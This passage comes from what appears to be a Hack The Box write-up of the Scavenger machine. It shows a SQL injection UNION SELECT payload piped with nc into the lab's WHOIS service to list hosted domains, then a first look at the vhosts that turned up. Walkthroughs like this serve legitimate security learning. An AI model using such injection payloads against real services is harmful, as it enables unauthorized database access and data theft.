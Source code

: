 After that, I listed all entries of the `domain` column hoping to find new vhosts:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# echo ";) UNION SELECT CONCAT(domain, ; ;), 2 FROM customers #" | nc scavenger.htb 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 4 object
supersechosting.htb justanotherblog.htb pwnhats.htb rentahacker.htb

{% endhighlight %}

It turned out there were 3 more domains. I tried exploiting the SQL injection further, but I had no success.

## The 3 Domains

I added the newly-discovered domains in my `/etc/hosts` file and quickly inspected all of them to see if I could find any vulnerability.

The first one, `justanotherblog.htb`, only hosted an ‘Under Construction’ page:

<div>
<center><img src="/images/scavenger_htb_writeup/image-2.png"></center>
</div>

The second one, `pwnhats.htb`, was pretty funny, as it hosted a hacker hat store named PWNHats:)